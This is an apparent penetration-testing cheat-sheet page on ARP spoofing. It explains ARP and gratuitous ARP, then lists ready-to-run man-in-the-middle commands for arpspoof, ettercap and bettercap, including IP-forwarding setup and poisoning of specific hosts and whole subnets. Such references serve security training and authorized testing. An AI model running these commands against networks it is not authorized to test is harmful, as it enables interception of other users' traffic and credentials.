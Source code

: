 # ARP Spoofing

## ARP

• An ARP request message should be placed in a frame and broadcast to all computers on the network&#x20;

• Each computer receives the request and examines the IP address&#x20;

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

## Gratuitous ARP

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs&#x20;

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## ARP Spoofing

### arpspoof

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### Ettercap

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### Bettercap

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
